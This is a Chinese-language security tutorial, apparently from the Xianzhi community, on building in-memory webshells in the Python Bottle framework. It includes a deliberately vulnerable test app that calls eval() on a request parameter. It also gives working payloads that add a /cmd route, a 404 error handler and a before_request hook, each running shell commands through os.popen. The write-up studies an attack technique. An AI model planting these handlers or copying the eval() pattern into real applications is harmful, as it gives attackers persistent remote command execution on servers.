








# Bottle框架内存马-先知社区

> **来源**: https://xz.aliyun.com/news/17049  
> **文章ID**: 17049

---

# 简介

Bottle 是一个用于Python的微框架，非常适合用来快速构建小型的web应用和API。它的设计目标是简单易用且轻量级，整个框架只有一个文件，没有依赖其他库（除了标准库以外）。这使得它非常容易部署，并且可以很好地嵌入到其他项目中

# 思路

Web 服务的内存马的构造一般是两个思路：

1. 注册一个新的 url，绑定恶意的函数
2. 修改原有的 url 处理逻辑

# 测试代码

```
from bottle import template, Bottle,request,error  
  
app = Bottle()  
@error(404)  
@app.route('/shell')  
def index():  
  result = eval(request.params.get('name'))  
  return template('Hello {{result}}, how are you?',result)  
  
@app.route('/')  
def index():  
  return 'Hello world'  
if __name__ == '__main__':  
  app.run(host='0.0.0.0', port=8888,debug=True)
```

# 路由规则分析

跟进一下route



这里route方法有三个参数，路径，请求方式，回调函数，再往下看



代码逻辑：

* 如果path是可调用的（比如是一个函数），则认为没有提供具体的路径（即None），而直接使用path作为回调函数callback。
* 对于每个HTTP方法（GET, POST等），创建一个新的Route实例。Route类通常包含关于如何处理特定URL和HTTP方法的所有信息，如回调函数、中间件、配置选项等。
* 然后通过self.add\_route(route)将这个新路由添加到应用中。

再跟进一下add\_route



add\_route 方法是用于将一个 Route 对象添加到应用的路由表中的方法

# 内存马构造

路由里面可以传入一个callback作为一个回调函数或者处理请求的函数，这里可以用**Lambda函数**

我们采取的方式主要为添加路由以及修改配置的操作进行，其与flask框架中的app.add\_url\_rule函数类似

```
app.route("/cmd","GET",lambda :__import__('os').popen(request.params.get('a')).read())
```

* **app.route("/cmd", "GET", ...)**:

* 定义了一个新的路由/cmd，它只响应HTTP GET请求。

* **Lambda函数**:

* 这是一个匿名函数，没有参数。当访问/cmd路径时，会执行这个匿名函数中的代码。

* **\_\_import\_\_('os').popen(request.params.get('a'))**:

* 动态导入Python的os模块并使用popen方法执行从请求参数a获取的命令。request.params.get('a')尝试从请求的查询参数中获取名为a的值。

* **.read()**:

* 调用.read()方法读取命令执行后的输出结果，并将其作为HTTP响应返回给客户端。



## 利用错误页面



这里在服务器请求错误时，会调用一个回调函数来处理，那么这里也可以用**Lambda函数**

```
app.error(404)(lambda e: __import__('os').popen(request.query.get('a')).read())
```



## before\_request





对bottle框架的hook进行操作 在添加时候我们可以看到他专门有一个参数就是func 也就是执行的函数

```
app.add_hook('before_request',lambda+:__import__('os').popen('whoami').read())
```
